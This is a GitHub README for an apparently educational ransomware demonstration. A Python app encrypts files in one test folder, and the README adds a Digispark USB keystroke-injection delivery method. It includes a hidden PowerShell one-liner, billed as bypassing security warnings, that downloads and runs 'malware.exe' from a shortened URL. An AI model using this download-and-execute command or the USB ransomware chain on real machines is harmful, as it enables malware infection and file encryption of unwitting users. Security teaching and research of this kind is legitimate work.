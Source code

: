 **EDUCATIONAL USE ONLY, USE AT YOUR OWN RISK!** \
**IT IS ALWAYS RECOMMENDED TO TEST THESE KINDS OF PROGRAMS INSIDE A VIRTUAL MACHINE WITH NO SENSITIVE INFORMATION INCASE OF SOMETHING GOES WRONG**

**Version 1.0**

![bio](https://github.com/therealhalonen/PhishSticks/assets/112076418/8e7f742d-bdc4-41d0-9aaa-8a6493df29f7)

## What it is 

Simple application made with python and tkinter to demonstrate how an application can encrypt and decrypt your files with extensions {'.txt', '.jpg', '.jpeg', '.png'} in the directory called TestDirz338

If combined with the PowerShell script below, the application gets downloaded and executed in path `{USER}\TestDirz338\` 

Right now the application decrypts all {'.txt', '.jpg', '.jpeg', '.png'} files when user gives up the right password (lihapulla).

![270753154-8fb9e882-b990-48cd-add6-309dd09af3be](https://github.com/therealhalonen/PhishSticks/assets/112076418/bee3e9ec-499b-4a0e-af8b-fc5e2c04b4ea)

## How to use

Download and run the script or .exe file inside a safe folder with no important files (incase something goes wrong) to launch the program and enjoy, for example:

```
$ mkdir TestDirz338
$ cd TestDirz338
$ ./encrypt.py
```
OR

Make a folder called TestDirz338 in the path C:/Users/{USER}/

![2023-12-05_18-59](https://github.com/therealhalonen/PhishSticks/assets/112076418/6682c7df-debb-40ce-bba0-aea449f228f4)


Bypass security warnings and download & execute the file instantly in TestDirz338 folder by typing the following code into Run (Win+R) on **Windows**:
```
powershell -w hidden -c "(New-Object System.Net.WebClient).DownloadFile('https://tinyurl.com/28sb6pvc', \"$env:UserProfile\TestDirz338\malware.exe\");Start-Process \"$env:UserProfile\TestDirz338\malware.exe\" -WorkingDir \"$env:UserProfile\TestDirz338\""
```
If you don't have a folder called TestDirz338 and you execute the code above, nothing happens. Also trying to run the executable anywhere else raises an error:

![2023-12-05_18-56](https://github.com/therealhalonen/PhishSticks/assets/112076418/85b533aa-ec2b-40af-9d5d-66121cf92b4f)

How it works: https://www.youtube.com/watch?v=glqK_-qdDkw

Executable version works the same without needing different python libraries.

---

### To set up Digispark payload:
- [Set up Digispark](https://github.com/therealhalonen/PhishSticks/blob/master/notes/ollikainen/notes.md#digispark)
- Add correct Digikeyboard library to match your systems keyboard layout for example [DigiKeyboardFi.h](https://github.com/therealhalonen/DigiKeyboardFi/blob/master/DigiKeyboardFi.h) for Finnish keyboards (made by [therealhalonen](https://github.com/therealhalonen))
- Path of the file for Windows: C:/Users/username/Documents/Arduino/libraries/DigisparkKeyboard/DigiKeyboardFi.h
- Path of the file for Linux: ~/.arduino15/packages/digistump/hardware/avr/1.6.7/libraries/DigisparkKeyboard/DigiKeyboardFi.h
- compile and upload [digispark_ransomware.ino](https://github.com/therealhalonen/PhishSticks/blob/master/digispark/digispark_ransomware/digispark_ransomware.ino) to your digispark
- Plug the Digispark in a computers USB slot and enjoy
  
![2023-12-05_19-12](https://github.com/therealhalonen/PhishSticks/assets/112076418/835e2937-1551-41fc-91f6-2b135fd5e0cb)



Watch the video to see it in action: https://www.youtube.com/watch?v=Bi2QOMSHeKI
